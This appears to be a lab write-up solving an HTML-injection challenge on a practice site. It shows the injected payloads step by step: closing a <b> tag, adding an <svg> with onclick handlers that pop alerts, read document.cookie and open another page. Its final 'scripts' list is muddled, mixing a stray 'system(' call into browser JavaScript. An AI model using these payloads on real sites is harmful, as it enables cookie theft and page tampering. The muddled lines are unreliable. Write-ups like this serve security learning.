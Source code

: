 # Write Up

## Challenge name
HTML's Are Easy!
https://labs.hacktify.in/HTML/html_lab/lab_1/html_injection_1.php

## Category
HTML injection

## description 
- go to the url
- theres is a search box in the middle of the page
  - it consist of
    - text box and a search button 

## solution
- Searching something in the returns:
```
<center>
  <br>Your Searched results for 
    <b>mytext</b>
</center>
```
- using <>""'`mytxt as inputs
  - return the text without promblems
- adding some tags
- `mytext</b>"<Svg></svg>`
- the </b> breaks and let me add the <svg> tags
```
<center>
  <br>Your Searched results for 
  <b> mytext</b>"
  <svg></svg>
</center>
```
- trying to pop an alert
- `mytext</b>"<Svg onclick=alert()></svg>`
- It worked, clicking the svg element pops an alert

trying more code:
Opening another page with one click
- `mytext</b>"<Svg onclick="window.open('https://www.google.com', '_blank')"></svg>`

Getting cookies
- `mytext</b>"<Svg onclick=alert(document.cookie)></svg>`

----

scripts
```
mytext</b>"<Svg></svg>
system(

mytext</b>"<Svg onclick="window.open('https://www.google.com', '_blank')"></svg>

mytext</b>"<Svg onclick=alert(system("ls"))></svg>
```

